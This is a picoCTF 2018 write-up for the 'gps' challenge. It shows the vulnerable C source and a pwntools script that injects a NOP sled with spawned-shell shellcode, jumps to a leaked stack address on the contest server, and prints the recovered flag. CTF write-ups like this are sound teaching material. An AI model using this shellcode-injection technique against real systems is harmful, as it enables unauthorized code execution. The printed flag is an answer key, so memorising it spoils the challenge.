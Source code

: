 # Problem
You got really lost in the wilderness, with nothing but your trusty [gps](https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps). Can you find your way back to a shell and get the flag? Connect with ```nc 2018shell1.picoctf.com 58896```. ([Source](https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps.c)).

## Hints:
Can you make your shellcode randomization-resistant?

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps
wget https://2018shell1.picoctf.com/static/9c6c7d4d93c2157acac968595e051244/gps.c
chmod +x ./gps
```

Lets take a look at the source:
```c
#include <stdint.h>
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

#define GPS_ACCURACY 1337

typedef void (fn_t)(void);

void initialize() {
    printf("GPS Initializing");
    for (int i = 0; i < 10; ++i) {
        usleep(300000);
        printf(".");
    }
    printf("Done\n");
}

void acquire_satellites() {
    printf("Acquiring satellites.");
    for (int i = 0; i < 3; ++i) {
        printf("Satellite %d", i);
        for (int j = 0; j < rand() % 10; ++j) {
            usleep(133700);
            printf(".");
        }
        if (i != 3) {
            printf("Done\n");
        } else {
            printf("Weak signal.\n");
        }
    }

    printf("\nGPS Initialized.\n");
    printf("Warning: Weak signal causing low measurement accuracy\n\n");
}

void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}


int main() {
    setbuf(stdout, NULL);

    char buffer[0x1000];
    srand((unsigned) (uintptr_t) buffer);

    initialize();
    acquire_satellites();

    printf("We need to access flag.txt.\nCurrent position: %p\n", query_position());

    printf("What's your plan?\n> ");
    fgets(buffer, sizeof(buffer), stdin);

    fn_t *location;

    printf("Where do we start?\n> ");
    scanf("%p", (void**) &location);

    location();
    return 0;
}
```

```query_position()``` gives us the address of the local ```stk``` (in other words, pointer neer the top of the stack) with an offset of +- ```1337 / 2```.
After that, we can send a buffer and an address which will be executed.

The strategy is to send a shellcode (with a [NOP sled](https://en.wikipedia.org/wiki/NOP_slide)) for the buffer, and the address we recieved from ```query_position()``` as the location. If we got lucky (which is highly probable), we will hit the NOP sled and our shellcode will be executed.

Code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'roeesefi'
pw = '123123'

context.arch = 'amd64'

if debug:
  p = process('./gps')
else:
  p = remote('2018shell1.picoctf.com', 58896)

lines = p.recvuntil('>').split('\n')

print '\n'.join(lines)

current_position = lines[-3].split(':')[1].strip()
log.info('Current position: {}'.format(current_position))

log.info('Sending shellcode')
p.sendline("\x90" * 900 + asm(shellcraft.sh()))

print p.recvuntil('>')

location = int(current_position[2:], 16)

log.info('Sending position 0x{:x}'.format(location))
p.sendline('0x{:x}'.format(location))

if debug:
  p.sendline('ls')
else:
  p.sendline('cat flag.txt')
  p.sendline('exit')

print p.recvall()
```

The output (when got lucky):
```bash
[+] Opening connection to 2018shell1.picoctf.com on port 58896: Done
GPS Initializing..........Done
Acquiring satellites.Satellite 0..Done
Satellite 1Done
Satellite 2...Done

GPS Initialized.
Warning: Weak signal causing low measurement accuracy

We need to access flag.txt.
Current position: 0x7ffef4b79b4b
What's your plan?
>
[*] Current position: 0x7ffef4b79b4b
[*] Sending shellcode
 Where do we start?
>
[*] Sending position 0x7ffef4b79b4b
[+] Receiving all data: Done (53B)
[*] Closed connection to 2018shell1.picoctf.com port 58896
 picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gfjdcwma}
```

Flag: picoCTF{s4v3_y0urs3lf_w1th_a_sl3d_0f_n0ps_gfjdcwma}